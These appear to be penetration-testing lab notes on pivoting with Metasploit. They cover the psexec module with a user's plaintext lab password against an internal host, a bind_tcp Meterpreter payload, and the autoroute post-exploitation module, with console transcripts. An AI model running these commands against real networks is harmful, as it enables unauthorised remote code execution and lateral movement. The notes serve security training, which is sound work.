 Let's use _`exploit/windows/smb/psexec`_ and set **SMBUser** to **luiza**, **SMBPass** to **BoccieDearAeroMeow1!**, and **RHOSTS** to **172.16.5.200**

It's important to note that the added route will only work with established connections
+ Because of this, the new shell on the target must be a bind shell such as _windows/x64/meterpreter/bind_tcp_, thus allowing us to use the set route to connect to it 
+ A reverse shell payload would not be able to find its way back to our attacking system in most situations because the target does not have a route defined for our network: 
```
msf6 auxiliary(scanner/portscan/tcp) > use exploit/windows/smb/psexec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > set SMBUser luiza
SMBUser => luiza

msf6 exploit(windows/smb/psexec) > set SMBPass "BoccieDearAeroMeow1!"
SMBPass => BoccieDearAeroMeow1!

msf6 exploit(windows/smb/psexec) > set RHOSTS 172.16.5.200
RHOSTS => 172.16.5.200

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp

msf6 exploit(windows/smb/psexec) > set LPORT 8000
LPORT => 8000
```
+ Can now run the exploit and receive a meterpreter session 

As an alternative to adding routes manually, we can use the _autoroute_ post-exploitation module to set up pivot routes through an existing Meterpreter session automatically
+ To demonstrate the usage of this module, we first need to remove the route we set manually
+ Let's terminate the Meterpreter session created through the _psexec_ module and remove all routes with **route flush**.

Now the only session left is the Meterpreter session created by executing **met.exe** as user _luiza_
+ In addition, the result of **route print** states that there are no routes defined
+ Next, let's activate the module _multi/manage/autoroute_ in which we have to set the session ID as value for the option _SESSION_ 
+ Then, let's enter **run** to launch the module:
```
msf6 exploit(windows/smb/psexec) > use multi/manage/autoroute

msf6 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

msf6 post(multi/manage/autoroute) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  12         meterpreter x64/windows  ITWK01\luiza @ ITWK01  192.168.119.4:443 -> 127.0.0.1 ()

```